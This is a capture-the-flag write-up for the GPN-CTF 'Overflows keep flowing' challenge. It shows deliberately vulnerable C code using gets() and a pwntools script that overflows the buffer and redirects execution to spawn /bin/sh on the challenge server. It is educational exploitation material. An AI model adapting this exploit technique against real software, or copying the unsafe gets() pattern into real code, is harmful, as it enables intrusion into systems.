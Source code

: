 ```yaml
---
title: "GPN-CTF: Overflows keep flowing" 
date: 2023-06-11 12:41:00 +0300
categories: ["pwn", "buffer overflows"]
tags: ["easy",'ctf' , "kitctf", "gpn-ctf", "intro-to-pwn"]
author: calvin-kimani
---
```


>This is the sequel to [overflow in the fl4gtory]({% post_url 2023-06-10-GPN-CTF-overflow-in-the-fl4gtory-writeup %})
{: .prompt-tip }

## Challenge Description:

The "Overflows keep flowing" challenge presents a vulnerable program with a simple buffer overflow vulnerability. The objective is to exploit this vulnerability to gain control over the program and gain `remote code execution` by calling `execve` within the program, which will grant access to the flag.

![challenge desc](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing-desc.png)


### Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

## Vulnerable code explanation
The program hasn't changed that much from its predecessor. There's still the vulnerable buffer `buf`. The user is still prompted/required to enter input by the use of `gets` **(man gets)** where the input is then stored in buf and the written input displayed to the user by use of `puts(buf)` **(man puts)**

There's a new 'safety check' which we will gladly bypass. The shutoff function when called, checks whether it's one and only argument `arg1` is equal to the value of `0xdeadbeefd3adc0de` which in decimal is "1.6045691e+19". If they are equal, `execve` **man execve** from the standard library is called with `"/bin/sh"` as the program to run with no commandline arguments as seen by `NULL`. We can bypass this whole check by calling `execve` directly instead of `shutoff` as we did earlier. So we first need to know where it's located.

We fire up `gdb` with `gef` to search for it.

![gdb output](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/gdb.png)

>We could have pwned the binary by also just loading the `arg1` buffer with the required value but why complicate stuff. I'll explain how we can overwrite arguments with the desired value in a future post.
{: .prompt-tip }

## Exploitation

We know when a function is called during program execution, the called function's arguments are pushed on the stack in the reverse order of how they're declared! So we can't call `execve` directly because it will fail as it doesn't have it's required arguments. So we need to go back a few instructions to where it's arguments are being loaded in the right registers before it's called.
From the gdb output we can see this is 56 addresses from shutoff's addresses. Now we need to overwrite the ret with this address !!

We use the pwn library in Python to assist in building the payload and interacting with the target program.

```python
from pwn import *

context.terminal = ["konsole", "-e"]  # Substitute your terminal

# Find the location of the shutoff functions
elf = ELF("./overflows-keep-flowing")
shutoff_addr = elf.symbols["shutoff"]

# Craft the payload
payload = b"A" * 264
payload += p64(shutoff_addr+56)

# Launch the process and send the payload
# process = process("./overflows-keep-flowing")
# process.sendline(payload)
# process.interactive()

# remote server
target = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
target.sendline(payload)

# Profit $$
print(target.recv())
target.interactive()
```

### reading the flag

After constructing the payload, we establish a connection to the target server using the provided IP address and port. We then send the payload to the program. Upon successful exploitation, the shutoff() function will be executed, and we can read the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing.png)

By leveraging the buffer overflow vulnerability in the "Overflows keep flowing" challenge, we successfully gained control over the program's execution flow and executed the shutoff() function to obtain the flag.


>Happy hacking :)
{: .prompt-tip }